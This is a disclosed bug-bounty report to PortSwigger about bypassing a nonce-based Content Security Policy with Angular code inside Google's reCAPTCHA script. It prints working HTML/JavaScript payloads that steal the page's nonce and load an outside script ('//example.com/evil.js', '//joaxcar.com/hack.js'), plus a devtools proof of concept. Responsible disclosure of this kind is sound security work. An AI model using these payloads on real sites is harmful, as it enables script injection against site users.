 # CSP bypass on PortSwigger.net using Google script resources

## Report Details
- **Report ID**: 2279346
- **URL**: https://hackerone.com/reports/2279346
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-12-09T17:47:59.364Z
- **Disclosed**: 2024-02-18T22:10:06.616Z

## Reporter
- **Username**: joaxcar
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: portswigger

## Vulnerability Information
## Summary
Hi team!
I read this [blogpost](https://portswigger.net/research/ambushed-by-angularjs-a-hidden-csp-bypass-in-piwik-pro) again after playing with an Angular CSP bypass in this Twitter thread https://twitter.com/sudhanshur705/status/1732760081094091117

I found a way to load arbitrary scripts (escaping the restrictions of Angular) if the page uses nonce-based CSP.

As show in the Twitter thread https://www.google.com/recaptcha/about/js/main.min.js contains Angular, and your CSP allows the complete `https://www.google.com/recaptcha/` URL

First of all this allows for simple JS execution, such as
```html
<script src='https://www.google.com/recaptcha/about/js/main.min.js'></script>
<img src=x ng-on-error='$event.target.ownerDocument.defaultView.alert(1)'>
```
this will pop an alert.

This allows for some JS execution, but eval and Function escalations from Angular will be blocked by the lack of `unsafe-inline`. I found that this can be bypassed when a site is using `nonce` based CSP like this
```html
<img src=x ng-on-error='
w=$event.target.ownerDocument;
a=w.defaultView.top.document.querySelector("[nonce]");
b=w.createElement("script");
b.src="//example.com/evil.js";
b.nonce=a.nonce;
w.body.appendChild(b)
'>
```
## POC
1. Go to https://portswigger.net/
2. Open devtools and paste and execute this (replace `//joaxcar.com/hack.js` if you want)
```javascript
document.getElementsByTagName("div")[0].innerHTML=`<iframe srcdoc="<div lang=en ng-app=application ng-csp class=ng-scope>
<script src='https://www.google.com/recaptcha/about/js/main.min.js'></script>
<img src=x ng-on-error='w=$event.target.ownerDocument;a=w.defaultView.top.document.querySelector(&quot;[nonce]&quot;);b=w.createElement(&quot;script&quot;);b.src=&quot;//joaxcar.com/hack.js&quot;;b.nonce=a.nonce;w.body.appendChild(b)'>
</div>
">`
```
3. See the popup, look at network tools and see that the script is loaded from

## Impact
Just as in the blog, this is more of an in-depth defense. You need an HTML injection to pull this off. But as you asked us to send bypasses in
>  if you find something we missed, please report it to PortSwigger's bug-bounty program
I do, however, understand if it is out of scope for rewards.

Have a nice one!
Johan

## Impact

CSP bypass using Angular JS

## Attachments
No attachments
